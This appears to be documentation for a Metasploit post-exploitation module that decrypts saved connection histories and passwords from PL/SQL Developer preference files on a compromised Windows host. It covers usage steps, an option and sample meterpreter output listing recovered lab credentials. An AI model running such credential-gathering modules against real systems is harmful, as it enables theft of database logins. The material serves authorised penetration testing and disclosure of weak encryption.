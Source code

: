 ## Vulnerable Application

This module can decrypt the histories and connection credentials of PL/SQL Developer,
and passwords are available if the user chooses to remember.

Analysis of encryption algorithm [here](https://adamcaudill.com/2016/02/02/plsql-developer-nonexistent-encryption/).
You can find its official website [here](https://www.allroundautomations.com/products/pl-sql-developer/).

## Verification Steps

  1. Download and install PL/SQL Developer.
  2. (Optional) Change the PL/SQL Developer preference to save the passwords.
  3. Use PL/SQL Developer to log in to oracle databases. Or add a connection in PL/SQL Developer manually.
  4. Get a `meterpreter` session on a Windows host.
  5. Do: `run post/windows/gather/credentials/plsql_developer`
  6. The username, password, SID of connections will be printed.

## Options

 **PLSQL_PATH**

  - Specify the path of PL/SQL Developer

## Scenarios

```
meterpreter > run windows/gather/credentials/plsql_developer

[*] Gather PL/SQL Developer Histories and Connections on WIN-XXXXXXXXXXX
[*] Decrypting C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
[*] Decrypting C:\Users\Administrator\AppData\Roaming\PLSQL Developer 14\Preferences\Administrator\user.prefs
[*] Decrypting C:\Users\Administrator\AppData\Roaming\PLSQL Developer 15\Preferences\Administrator\user.prefs
PL/SQL Developer Histories and Credentials
==========================================

DisplayName                              Username  Database  ConnectAs  Password   FilePath
-----------                              --------  --------  ---------  --------   --------
[Connections]/Imported Fixed Users/Test  sys       ORCL      SYSDBA     pass       C:\Users\Administrator\AppData\Roaming\PLSQL Developer 15\Preferences\Administrator\user.prefs
[Connections]/Imported History/Test      sys       ORCL      SYSDBA     oracle     C:\Users\Administrator\AppData\Roaming\PLSQL Developer 14\Preferences\Administrator\user.prefs
[LogonHistory]                           test2     ORCL      Normal     password2  C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
[LogonHistory]                           test1     ORCL      Normal                C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
[LogonHistory]                           sys       ORCL      SYSDBA     oracle     C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
[LogonHistory]                           user      server    Normal     password   C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs

[+] Passwords stored in: C:/Users/Administrator/.msf4/loot/20231109050433_default_127.0.0.1_host.plsql_devel_357810.txt
meterpreter >
```
